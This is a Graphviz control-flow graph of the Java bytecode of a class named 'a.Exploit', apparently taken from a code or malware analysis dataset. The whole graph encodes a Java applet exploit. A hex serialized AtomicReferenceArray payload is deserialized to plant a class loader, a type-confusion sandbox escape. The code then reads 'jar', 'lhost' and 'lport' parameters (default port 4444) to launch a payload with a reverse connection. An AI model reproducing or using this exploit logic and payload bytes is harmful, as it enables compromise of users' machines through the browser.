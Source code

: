 digraph "" {
    "r0 := @this: a.Exploit"
    "push 8"
    "r0 := @this: a.Exploit"->"push 8";
    "newarray"
    "push 8"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push \"ACED0005757200135B4C6A6176612E6C616E672E4F62\""
    "push 0"->"push \"ACED0005757200135B4C6A6176612E6C616E672E4F62\"";
    "arraywrite.r"
    "push \"ACED0005757200135B4C6A6176612E6C616E672E4F62\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "push \"6A6563743B90CE589F1073296C020000787000000002\""
    "push 1"->"push \"6A6563743B90CE589F1073296C020000787000000002\"";
    "push \"6A6563743B90CE589F1073296C020000787000000002\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 2"
    "load.r r6"->"push 2";
    "push \"757200095B4C612E48656C703BFE2C941188B6E5FF02\""
    "push 2"->"push \"757200095B4C612E48656C703BFE2C941188B6E5FF02\"";
    "push \"757200095B4C612E48656C703BFE2C941188B6E5FF02\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 3"
    "load.r r6"->"push 3";
    "push \"000078700000000170737200306A6176612E7574696C\""
    "push 3"->"push \"000078700000000170737200306A6176612E7574696C\"";
    "push \"000078700000000170737200306A6176612E7574696C\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 4"
    "load.r r6"->"push 4";
    "push \"2E636F6E63757272656E742E61746F6D69632E41746F\""
    "push 4"->"push \"2E636F6E63757272656E742E61746F6D69632E41746F\"";
    "push \"2E636F6E63757272656E742E61746F6D69632E41746F\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 5"
    "load.r r6"->"push 5";
    "push \"6D69635265666572656E63654172726179A9D2DEA1BE\""
    "push 5"->"push \"6D69635265666572656E63654172726179A9D2DEA1BE\"";
    "push \"6D69635265666572656E63654172726179A9D2DEA1BE\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 6"
    "load.r r6"->"push 6";
    "push \"65600C0200015B000561727261797400135B4C6A6176\""
    "push 6"->"push \"65600C0200015B000561727261797400135B4C6A6176\"";
    "push \"65600C0200015B000561727261797400135B4C6A6176\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 7"
    "load.r r6"->"push 7";
    "push \"612F6C616E672F4F626A6563743B787071007E0003\""
    "push 7"->"push \"612F6C616E672F4F626A6563743B787071007E0003\"";
    "push \"612F6C616E672F4F626A6563743B787071007E0003\""->"arraywrite.r";
    "new java.lang.StringBuilder"
    "arraywrite.r"->"new java.lang.StringBuilder";
    "store.r r8"
    "new java.lang.StringBuilder"->"store.r r8";
    "load.r r8"
    "store.r r8"->"load.r r8";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "load.r r8"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push 0";
    "store.i r9"
    "push 0"->"store.i r9";
    "load.i r9"
    "store.i r9"->"load.i r9";
    "load.i r9"->"load.r r6";
    "arraylength"
    "load.r r6"->"arraylength";
    "ifcmpge.i new java.io.ObjectInputStream"
    "arraylength"->"ifcmpge.i new java.io.ObjectInputStream";
    "ifcmpge.i new java.io.ObjectInputStream"->"load.r r8";
    "load.r r8"->"load.r r6";
    "load.r r6"->"load.i r9";
    "arrayread.r"
    "load.i r9"->"arrayread.r";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"pop";
    "inc.i r9 1"
    "pop"->"inc.i r9 1";
    "goto load.i r9"
    "inc.i r9 1"->"goto load.i r9";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "store.r r0"
    "staticget <java.lang.System: java.io.PrintStream out>"->"store.r r0";
    "virtualinvoke <java.lang.Exception: java.lang.String getMessage()>"
    "store.r r0"->"virtualinvoke <java.lang.Exception: java.lang.String getMessage()>";
    "virtualinvoke <java.lang.Exception: java.lang.String getMessage()>"->"store.r r6";
    "load.r r0"
    "store.r r6"->"load.r r0";
    "load.r r0"->"load.r r6";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r6"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"return";
    "new java.io.ObjectInputStream"
    "ifcmpge.i new java.io.ObjectInputStream"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r8";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <a.Exploit: byte[] StringToBytes(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <a.Exploit: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <a.Exploit: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r3"
    "checkcast"->"store.r r3";
    "store.r r3"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "load.r r3"
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"jar\""
    "load.r r0"->"push \"jar\"";
    "push \"jar\""->"virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "push \"lhost\""
    "load.r r0"->"push \"lhost\"";
    "push \"lhost\""->"virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"lport\""
    "load.r r0"->"push \"lport\"";
    "push \"lport\""->"virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r10"
    "virtualinvoke <a.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r10";
    "store.r r10"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"go go go\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"go go go\"";
    "push \"go go go\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r3";
    "load.r r10"
    "store.r r3"->"load.r r10";
    "ifnonnull load.r r10"
    "load.r r10"->"ifnonnull load.r r10";
    "push 4444"
    "ifnonnull load.r r10"->"push 4444";
    "store.i r10"
    "push 4444"->"store.i r10";
    "goto load.r r3"
    "store.i r10"->"goto load.r r3";
    "goto load.r r3"->"load.r r3";
    "load.r r3"->"load.r r0";
    "load.r r0"->"load.r r6";
    "load.r r6"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "load.i r10"
    "load.r r9"->"load.i r10";
    "staticinvoke <a.Help: void doWork(a.Help,a.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>"
    "load.i r10"->"staticinvoke <a.Help: void doWork(a.Help,a.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>";
    "goto return"
    "staticinvoke <a.Help: void doWork(a.Help,a.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>"->"goto return";
    "ifnonnull load.r r10"->"load.r r10";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r10"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r10";
}
